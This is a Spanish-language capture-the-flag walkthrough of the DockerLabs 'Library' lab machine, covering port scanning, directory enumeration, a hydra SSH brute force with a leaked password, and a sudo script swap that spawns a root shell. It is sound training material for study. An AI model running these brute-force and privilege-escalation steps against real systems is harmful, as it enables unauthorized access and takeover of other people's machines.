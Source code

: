 ```yaml
---
title: Library - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | ElPinguinoDeMario | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/d41b0946-80ee-44bd-93a7-301c8cff5311)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
- `22` (SSH)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/237d04c4-8a6f-47d5-af9c-a6818d7248e6)

# Exploración Web

Al acceder a la página web, encontramos el panel de Apache por defecto:

![image](https://github.com/user-attachments/assets/a460f045-4527-4915-8b66-a9bcc7a5bee7)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/04a839c1-ecb8-429f-abbf-6f1eae7919d9)

Al revisar el archivo `index.php`, encontramos un código:

![image](https://github.com/user-attachments/assets/8223d36b-e8a7-4f48-8f4a-c3a0edb58f38)

## Fuerza bruta

Vamos a ver si esa contraseña corresponde a algún usuario. Usamos `hydra`:

```bash
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2 -t 4
```
![image](https://github.com/user-attachments/assets/de9f0095-9c4c-4433-9763-eeda46294ebb)

Encontramos al usuario `Carlos`. Ahora intentamos ingresar por `SSH`.

## Escalada de Privlegios.

Una vez dentro de la máquina, al ejecutar `sudo -l`, vemos que podemos ejecutar el script `script.py` como root: 

![image](https://github.com/user-attachments/assets/d0cc8ad5-c39e-4f76-84e9-9ca1fb08cfa3)

Verificamos los permisos del archivo en `/opt`:

![image](https://github.com/user-attachments/assets/8f3fb4b5-3c45-4af2-b494-4f8ed4818355)

Eliminamos el archivo existente y creamos uno nuevo con el siguiente contenido:
```python
import os

os.system('/bin/sh')
```
![image](https://github.com/user-attachments/assets/38d009b7-eb43-41bf-bbfb-9520a1fb8b8a)

Ejecutamos el nuevo script:

![image](https://github.com/user-attachments/assets/f4bb818c-5cde-4c32-b6ce-e165d9ffe90c)

¡Ya somos root!

